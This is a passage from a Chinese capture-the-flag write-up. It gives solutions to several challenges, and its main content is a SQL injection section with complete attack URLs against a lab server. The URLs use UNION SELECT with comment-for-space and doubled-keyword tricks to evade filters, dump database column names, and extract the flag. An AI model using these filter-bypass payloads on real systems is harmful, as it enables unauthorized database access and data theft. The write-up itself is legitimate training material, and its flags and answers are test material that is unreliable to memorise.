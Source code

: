 上传后再下载 `/uploads/flag` 就行了。

## sql教学局

感觉比较简单的sql注入！甚至有回显

主要是用双写和/**/绕过空格，感觉跟信息安全综合实践二的web题差不多

flag
第一段：flag{f5729aaa-
http://101.32.220.189:31777/challenge.php?user=1'/**/union/**/selselectect/**/flag/**/frfromom/**/secret.passwoorrd%23
第二段：3d49-475e-9731  http://101.32.220.189:31777/challenge.php?user=1'/**/union/**/selselectect/**/grade/**/frfromom/**/scoorre/**/where/**/student/**/like/**/'begin'%23
第三段：-e15fd5d2891d} 
爆字段：
http://101.32.220.189:32067/challenge.php?user=1'/**/union/**/selselectect/**/group_concat(column_name)/**/frfromom/**/infoorrmation_schema.columns/**/where/**/table_name/**/like/**/'scoorre'%23
flag{f5729aaa-3d49-475e-9731-e15fd5d2891d} 

# Misc

## tupper

先base64再

[tupper解密](https://tuppers-formula.ovh/)

## check ln

直接base32转码

## devils's word

先转换语言，然后搜索发现是温州话，之前找到过魔鬼语言温州话，但是没具体往下走

```python
with open("devil's word.txt", 'r') as f:
    data = f.read().strip().split(' ')

table = {
    'leng': '0', 'lia': '2', 'sa': '3', 'sii': '4', 'bo': '8',
    'ng': '5', 'leu': '6', 'cai': '7', 'jau': '9',
    'a': 'a', 'b': 'b', 'c': 'c', 'd': 'd', 'e': 'e', 'f': 'f'}

result = b''
for i in range(0, len(data), 2):
    result += bytes([int(table[data[i]]+table[data[i + 1]], 16)])

print(result.decode())
```
